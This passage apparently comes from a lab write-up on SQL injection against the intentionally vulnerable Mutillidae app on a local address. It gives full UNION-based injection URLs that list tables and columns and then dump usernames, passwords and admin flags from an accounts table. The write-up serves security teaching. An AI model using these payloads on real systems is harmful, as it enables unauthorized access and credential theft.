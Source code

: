 ![image](https://github.com/Darkwebnew/sqlinjection/assets/143114486/8b92e232-8dc1-48e8-8871-56fbd24bfd08)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

```

http://192.168.43.83/mutillidae/index.php?page=user-info.php&username=Harish%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

```

![image](https://github.com/Darkwebnew/sqlinjection/assets/143114486/5446bb17-3aaa-4b6d-80b2-51e3fdf34e65)

The url once executed will  retrieve table names from the “owasp 10” database.
## Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![image](https://github.com/Darkwebnew/sqlinjection/assets/143114486/806c976e-6149-4007-bcd1-7daa091e7a56)

The column names of the accounts is displayed below for the following url:

```

http://192.168.43.83/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

```

![image](https://github.com/Darkwebnew/sqlinjection/assets/143114486/d55a98fc-4724-458d-a31a-d9294a200131)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.43.83/mutillidae/index.php?page=user-info.php&username=Harish%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
